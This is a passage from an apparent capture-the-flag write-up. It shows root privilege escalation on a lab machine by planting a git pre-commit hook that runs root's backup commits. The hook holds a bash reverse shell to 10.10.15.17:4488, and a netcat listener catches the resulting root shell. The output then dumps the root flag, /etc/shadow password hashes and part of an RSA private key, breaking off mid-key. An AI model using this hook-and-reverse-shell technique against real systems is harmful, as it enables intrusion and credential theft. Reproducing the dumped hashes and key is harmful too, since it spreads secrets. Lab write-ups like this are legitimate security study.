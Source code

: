 It seems like backups are commited frequently by **UID 0** (root), we should be able to exploit this by creating our own pre-commit / commit-msg / prepare-commit-msg script. 

```bash
dev01@opensource:~/.git/hooks$ ls -al pre-commit
-rwxrwxr-x 1 dev01 dev01 54 May 24 11:12 pre-commit

dev01@opensource:~/.git/hooks$ cat pre-commit
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.17/4488 0>&1
```

Wait for the backup to be made and we should get our reverse shell! 

```bash
➜  chisel_1.7.7 nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.15.17] from (UNKNOWN) [10.129.70.252] 43612
bash: cannot set terminal process group (21874): Inappropriate ioctl for device
bash: no job control in this shell
root@opensource:/home/dev01# id
uid=0(root) gid=0(root) groups=0(root)

root@opensource:/home/dev01# cat /root/root.txt
6d931e05a808f004c7ec976de9be27ff

root@opensource:/home/dev01# cat /etc/shadow
root:$6$5sA85UVX$HupltM.bMqXkLc269pHDk1lryc4y5LV0FPMtT3x.yUdbe3mGziC8aUXWRQ2K3jX8mq5zItFAkAfDgPzH8EQ1C/:19072:0:99999:7:::
dev01:$6$KxPkBXel$7cqEmnerc0RmIaUGVdGLXlbC61.2x5bY0DLC/j2VDHG3mAaqeWFfQiuHOXmQss91XNn0FybSdfl51vFfKuwRh/:19073:0:99999:7:::

root@opensource:/home/dev01# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
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
```